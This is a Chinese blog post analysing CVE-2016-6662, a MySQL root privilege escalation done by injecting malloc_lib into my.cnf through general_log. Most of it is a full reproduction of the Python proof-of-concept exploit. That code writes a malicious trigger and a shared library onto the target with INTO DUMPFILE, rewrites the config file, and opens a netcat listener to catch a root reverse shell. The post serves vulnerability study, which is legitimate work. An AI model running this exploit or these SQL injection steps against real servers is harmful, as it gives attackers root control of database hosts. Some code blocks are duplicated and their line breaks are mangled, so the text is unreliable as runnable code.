


# 【漏洞分析】UDF 提权漏洞——CVE-2016-6662-MySQL ‘malloc_lib’变量重写命令执行 - XuepengZ - 博客园

> 原文：[`www.cnblogs.com/Shepherdzhao/p/15265249.html`](https://www.cnblogs.com/Shepherdzhao/p/15265249.html)

**0x00 前言**

最近在做渗透笔记，其中有一个靶机在 getshell 后，需要进行提权。发现靶机使用 root 启动的 mysql 服务，那么尝试使用 UDF 提权。于是在提权成功后，花了一天时间特意搜了一下整个 UDF 提权的漏洞原理和利用，加深理解。

大体思路就是 mysql 某几个版本内，mysqld_safe 脚本有一个加速/处理内存的地方会采用 “malloc_lib”变量作为选择性加载(preload 方式)malloc 库。但问题是是这个变量可以被 my.cnf 所控制，导致 my.cnf 一旦被攻击者在 mysql 客户端篡改的话可以直接导致 mysqld_safe 所调用的 mysqld 进程执行权被控制。

完整的漏洞学习可以参考：https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html

我也是在使用谷歌翻译后一点点了解学习到的，学完才发现百度上有完整的翻译，尴尬！https://www.anquanke.com/post/id/84557

**0x01 漏洞影响**

MySQL  <= 5.7.15       远程代码执行/ 提权 (0day)

       5.6.33

       5.5.52

Mysql 分支的版本也受影响,包括：

MariaDB

PerconaDB 

**0x02 漏洞介绍**

这个漏洞影响(5.7, 5.6, 和 5.5 版本)的所有 Mysql 默认配置，包括最新的版本，攻击者可以远程和本地利用该漏洞。该漏洞需要认证访问 MYSQL 数据库（通过网络连接或者像 phpMyAdmin 的 web 接口），以及通过 SQL 注入利用。攻击者成功利用该漏洞可以以 ROOT 权限执行代码，完全控制服务器。

**0x03 漏洞描述**

在使用 root 开启 mysql 进程后

```
root     14967  0.0  0.1   4340  1588 ?        S    06:41   0:00 /bin/sh /usr/bin/mysqld_safe
mysql 15314  1.2  4.7 558160 47736 ?        Sl   06:41   0:00 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin --user=mysql --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306
```

可以看到 mysqld_safe 的 wrapper(封装)脚本是 root 权限执行的，而主要的 mysqld 进程确实 mysql 用户权限执行的。

那么直接来看这个 mysqld_safe 脚本：

```
 1 ----[ /usr/bin/mysqld_safe ]----
 2 [...]
 3 # set_malloc_lib LIB
 4 # - If LIB is empty, do nothing and return
 5 # - If LIB is 'tcmalloc', look for tcmalloc shared library in /usr/lib
 6 #   then pkglibdir.  tcmalloc is part of the Google perftools project. 7 # - If LIB is an absolute path, assume it is a malloc shared library 8 #
 9 # Put LIB in mysqld_ld_preload, which will be added to LD_PRELOAD when 10 # running mysqld.  See ld.so for details. 11 set_malloc_lib() { 12   malloc_lib="$1"
13   if [ "$malloc_lib" = tcmalloc ]; then 14     pkglibdir=`get_mysql_config --variable=pkglibdir` 15     malloc_lib=
16     # This list is kept intentionally simple.  Simply set --malloc-lib 17     # to a full path if another location is desired. 18     for libdir in /usr/lib "$pkglibdir" "$pkglibdir/mysql"; do
19       for flavor in _minimal '' _and_profiler _debug; do
20         tmp="$libdir/libtcmalloc$flavor.so"
21         #log_notice "DEBUG: Checking for malloc lib '$tmp'"
22         [ -r "$tmp" ] || continue
23         malloc_lib="$tmp"
24         break 2
25 done 26 done 27 [...] 28 ----------[ eof ]---------------
```

通过手册我们可以得知–malloc-lib=LIB 选项可以加载一个 so 文件，如果攻击者可以注入路径信息到配置文件，就可以在 MYSQL 服务重启的时候，执行任意代码。

从 2003 开始，默认通过 SELECT * INFO OUTFILE '/var/lib/mysql/my.cnf'是不能覆写文件的，但是我们可以利用 mysql logging（MySQL ）功能绕过 outfile/dumpfile 重写文件的保护，攻击者需要 SELECT/FILE 权限 。

我们通过覆写/etc/my.cnf 注入 malloc_lib=路径选项，命令如下：

```
 1 ----[ /usr/bin/mysqld_safe ]----
 2 [...]
 3 # set_malloc_lib LIB
 4 # - If LIB is empty, do nothing and return 5 # - If LIB is 'tcmalloc', look for tcmalloc shared library in /usr/lib
 6 #   then pkglibdir.  tcmalloc is part of the Google perftools project. 7 # - If LIB is an absolute path, assume it is a malloc shared library 8 #
 9 # Put LIB in mysqld_ld_preload, which will be added to LD_PRELOAD when 10 # running mysqld.  See ld.so for details. 11 set_malloc_lib() { 12   malloc_lib="$1"
13   if [ "$malloc_lib" = tcmalloc ]; then
14     pkglibdir=`get_mysql_config --variable=pkglibdir` 15     malloc_lib=
16     # This list is kept intentionally simple.  Simply set --malloc-lib 17     # to a full path if another location is desired. 18     for libdir in /usr/lib "$pkglibdir" "$pkglibdir/mysql"; do
19       for flavor in _minimal '' _and_profiler _debug; do
20         tmp="$libdir/libtcmalloc$flavor.so"
21         #log_notice "DEBUG: Checking for malloc lib '$tmp'"
22         [ -r "$tmp" ] || continue 23         malloc_lib="$tmp"
24         break 2
25       done
26     done
27 [...] 28 ----------[ eof ]---------------
29 mysql> set global general_log_file = '/etc/my.cnf'; 30 mysql> set global general_log = on; 31 mysql> select ' 32     '> 
33     '> ; injected config entry
34     '> 
35     '> [mysqld]
36     '> malloc_lib=/tmp/mysql_exploit_lib.so
37     '> 
38     '> [separator]
39     '> 
40     '> '; 41 mysql> set global general_log = off;
```

注入后的 my.cnf 文件包含：

```
[mysqld] malloc_lib=/tmp/mysql_exploit_lib.so
```

**0x04 POC**

```
----------[ 0ldSQL_MySQL_RCE_exploit.py ]--------------
#!/usr/bin/python # This is a limited version of the PoC exploit. It only allows appending to # existing mysql config files with weak permissions. See V) 1) section of 
# the advisory for details on this vector. 
#
# Full PoC will be released at a later date, and will show how attackers could # exploit the vulnerability on default installations of MySQL on systems with no # writable my.cnf config files available. #
# The upcoming advisory CVE-2016-6663 will also make the exploitation trivial # for certain low-privileged attackers that do not have FILE privilege. # 
# See full advisory for details: # http://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.txt #
# Stay tuned ;)
intro = """ 0ldSQL_MySQL_RCE_exploit.py (ver. 1.0)
(CVE-2016-6662) MySQL Remote Root Code Execution / Privesc PoC Exploit
For testing purposes only. Do no harm.
Discovered/Coded by:
Dawid Golunski
http://legalhackers.com """
import argparse import mysql.connector import binascii import subprocess def info(str): print "[+] " + str + "n"
def errmsg(str): print "[!] " + str + "n"
def shutdown(code): if (code==0):
        info("Exiting (code: %d)n" % code) else:
        errmsg("Exiting (code: %d)n" % code)
    exit(code)
cmd = "rm -f /var/lib/mysql/pocdb/poctable.TRG ; rm -f /var/lib/mysql/mysql_hookandroot_lib.so" process = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
(result, error) = process.communicate()
rc = process.wait() # where will the library to be preloaded reside? /tmp might get emptied on reboot # /var/lib/mysql is safer option (and mysql can definitely write in there ;)
malloc_lib_path='/var/lib/mysql/mysql_hookandroot_lib.so'
# Main Meat
print intro # Parse input args
parser = argparse.ArgumentParser(prog='0ldSQL_MySQL_RCE_exploit.py', description='PoC for MySQL Remote Root Code Execution / Privesc CVE-2016-6662')
parser.add_argument('-dbuser', dest='TARGET_USER', required=True, help='MySQL username') 
parser.add_argument('-dbpass', dest='TARGET_PASS', required=True, help='MySQL password')
parser.add_argument('-dbname', dest='TARGET_DB',   required=True, help='Remote MySQL database name')
parser.add_argument('-dbhost', dest='TARGET_HOST', required=True, help='Remote MySQL host')
parser.add_argument('-mycnf', dest='TARGET_MYCNF', required=True, help='Remote my.cnf owned by mysql user')

args = parser.parse_args() # Connect to database. Provide a user with CREATE TABLE, SELECT and FILE permissions # CREATE requirement could be bypassed (malicious trigger could be attached to existing tables)
info("Connecting to target server %s and target mysql account '%s@%s' using DB '%s'" % (args.TARGET_HOST, args.TARGET_USER, args.TARGET_HOST, args.TARGET_DB)) try:
    dbconn = mysql.connector.connect(user=args.TARGET_USER, password=args.TARGET_PASS, database=args.TARGET_DB, host=args.TARGET_HOST) except mysql.connector.Error as err:
    errmsg("Failed to connect to the target: {}".format(err))
    shutdown(1) try:
    cursor = dbconn.cursor()
    cursor.execute("SHOW GRANTS") except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(2)
privs = cursor.fetchall()
info("The account in use has the following grants/perms: " ) for priv in privs: print priv[0] print ""
# Compile mysql_hookandroot_lib.so shared library that will eventually hook to the mysqld 
# process execution and run our code (Remote Root Shell) # Remember to match the architecture of the target (not your machine!) otherwise the library # will not load properly on the target.
info("Compiling mysql_hookandroot_lib.so")
cmd = "gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.so mysql_hookandroot_lib.c -ldl" process = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
(result, error) = process.communicate()
rc = process.wait() if rc != 0:
    errmsg("Failed to compile mysql_hookandroot_lib.so: %s" % cmd) print error 
    shutdown(2) # Load mysql_hookandroot_lib.so library and encode it into HEX
info("Converting mysql_hookandroot_lib.so into HEX")
hookandrootlib_path = './mysql_hookandroot_lib.so' with open(hookandrootlib_path, 'rb') as f:
    content = f.read()
    hookandrootlib_hex = binascii.hexlify(content) # Trigger payload that will elevate user privileges and sucessfully execute SET GLOBAL GENERAL_LOG 
# Decoded payload (paths may differ):
""" DELIMITER //
CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf
AFTER INSERT
   ON `poctable` FOR EACH ROW
BEGIN
   DECLARE void varchar(550);
   set global general_log_file='/var/lib/mysql/my.cnf';
   set global general_log = on;
   select "
# 0ldSQL_MySQL_RCE_exploit got here :)
[mysqld]
malloc_lib='/var/lib/mysql/mysql_hookandroot_lib.so'
[abyss]
" INTO void;   
   set global general_log = off;
END; //
DELIMITER ; """ trigger_payload="""TYPE=TRIGGERS
triggers='CREATE DEFINER=`root`@`localhost` TRIGGER appendToConf\nAFTER INSERT\n   ON `poctable` FOR EACH ROW\nBEGIN\n\n   DECLARE void varchar(550);\n   set global general_log_file=\'%s\';\n   set global general_log = on;\n   select "\n\n# 0ldSQL_MySQL_RCE_exploit got here :)\n\n[mysqld]\nmalloc_lib=\'%s\'\n\n[abyss]\n" INTO void;   \n   set global general_log = off;\n\nEND'
sql_modes=0
definers='root@localhost'
client_cs_names='utf8'
connection_cl_names='utf8_general_ci'
db_cl_names='latin1_swedish_ci' """ % (args.TARGET_MYCNF, malloc_lib_path) # Convert trigger into HEX to pass it to unhex() SQL function
trigger_payload_hex = "".join("{:02x}".format(ord(c)) for c in trigger_payload) # Save trigger into a trigger file
TRG_path="/var/lib/mysql/%s/poctable.TRG" % args.TARGET_DB
info("Saving trigger payload into %s" % (TRG_path)) try:
    cursor = dbconn.cursor()
    cursor.execute("""SELECT unhex("%s") INTO DUMPFILE '%s' """ % (trigger_payload_hex, TRG_path) ) except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(4) # Save library into a trigger file
info("Dumping shared library into %s file on the target" % malloc_lib_path) try:
    cursor = dbconn.cursor()
    cursor.execute("""SELECT unhex("%s") INTO DUMPFILE '%s' """ % (hookandrootlib_hex, malloc_lib_path) ) except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(5) # Creating table poctable so that /var/lib/mysql/pocdb/poctable.TRG trigger gets loaded by the server
info("Creating table 'poctable' so that injected 'poctable.TRG' trigger gets loaded") try:
    cursor = dbconn.cursor()
    cursor.execute("CREATE TABLE `poctable` (line varchar(600)) ENGINE='MyISAM'" ) except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(6) # Finally, execute the trigger's payload by inserting anything into `poctable`. 
# The payload will write to the mysql config file at this point.
info("Inserting data to `poctable` in order to execute the trigger and write data to the target mysql config %s" % args.TARGET_MYCNF ) try:
    cursor = dbconn.cursor()
    cursor.execute("INSERT INTO `poctable` VALUES('execute the trigger!');" ) except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(6) # Check on the config that was just created
info("Showing the contents of %s config to verify that our setting (malloc_lib) got injected" % args.TARGET_MYCNF ) try:
    cursor = dbconn.cursor()
    cursor.execute("SELECT load_file('%s')" % args.TARGET_MYCNF) except mysql.connector.Error as err:
    errmsg("Something went wrong: {}".format(err))
    shutdown(2) finally:
    dbconn.close() # Close DB connection
print "" myconfig = cursor.fetchall() print myconfig[0][0]
info("Looks messy? Have no fear, the preloaded lib mysql_hookandroot_lib.so will clean up all the mess before mysqld daemon even reads it :)") # Spawn a Shell listener using netcat on 6033 (inverted 3306 mysql port so easy to remember ;)
info("Everything is set up and ready. Spawning netcat listener and waiting for MySQL daemon to get restarted to get our rootshell... :)" )
listener = subprocess.Popen(args=["/bin/nc", "-lvp","6033"])
listener.communicate() print ""
# Show config again after all the action is done
info("Shell closed. Hope you had fun. ") # Mission complete, but just for now... Stay tuned :)
info("""Stay tuned for the CVE-2016-6663 advisory and/or a complete PoC that can craft a new valid my.cnf (i.e no writable my.cnf required) ;)""") # Shutdown
shutdown(0)
```

（Author Zhaoxuepeng https://www.cnblogs.com/Shepherdzhao）

**对 CVE-2016-6662 的简单测试**

1.修改 my.cnf 的权限，让 mysql 用户可写


 2.通过 mysql logging　覆写文件



 3.放置后门程序

 `gcc -Wall -fPIC -shared -o mysql_hookandroot_lib.c.so mysql_hookandroot_lib.c.c -ldl`


4.重启触发反弹



参考：

https://legalhackers.com/advisories/MySQL-Exploit-Remote-Root-Code-Execution-Privesc-CVE-2016-6662.html

https://www.anquanke.com/post/id/84553

https://www.anquanke.com/post/id/84554